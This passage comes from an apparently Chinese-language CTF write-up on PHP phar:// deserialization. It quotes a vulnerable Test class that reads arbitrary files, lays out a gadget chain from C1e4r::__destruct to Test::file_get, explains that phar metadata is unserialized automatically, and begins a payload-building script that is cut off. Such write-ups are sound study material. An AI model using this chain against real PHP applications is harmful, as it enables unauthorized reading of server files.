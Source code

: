 ```php
# 这段代码中调用了 source, 也就是说 $this->str['str'] 需要是一个对象, 那么就令其为 Test 对象

# class Test
public function __get($key) {
    return $this->get($key);     // get('source')
}

public function get($key) {
    if (isset($this->params[$key])) {
        $value = $this->params[$key];
    } else {
        $value = "index.php";
    }
    return $this->file_get($value);
}

public function file_get($value) {
    $text = base64_encode(file_get_contents($value));
    return $text;
}
# Test::__get($key) 实际调用了 get($key)，而 get() 调用 file_get($value)
>
```

到目前已经有一条调用链:

```
C1e4r::__destruct => Show::__toString => Test::__get => Test::get => Test::file_get
```

### phar 伪协议

`phar://` 是 PHP 中的一个流式封装协议（Stream Wrapper），其原本设计目的是用来访问 `.phar`（PHP Archive）格式的归档文件，类似于 Java 的 `.jar` 文件。它允许你像访问目录结构一样访问 `.phar` 文件中的内容。

但在安全研究和渗透测试中，`phar://` 被广泛用于利用文件操作函数触发反序列化漏洞:

1. `.phar` 文件的元数据本质上是被 **序列化** 储存的。
2.  当使用 `phar://` 协议访问归档时，PHP 底层会**自动反序列化**这个 metadata (元数据) 区域。

那么只要把 payload 放进 metadata 中, 就可以实现反序列化攻击。

### 构造payload

构造 phar 文件:

```php
<?php 
class C1e4r
{
    public $str;
    public function __construct()
    {
        $this->str = new Show();
    }
}

class Show
{
    public $str;
    public function __construct()
    {
	$this->str['str']=new Test();
    }
}
class Test
{
```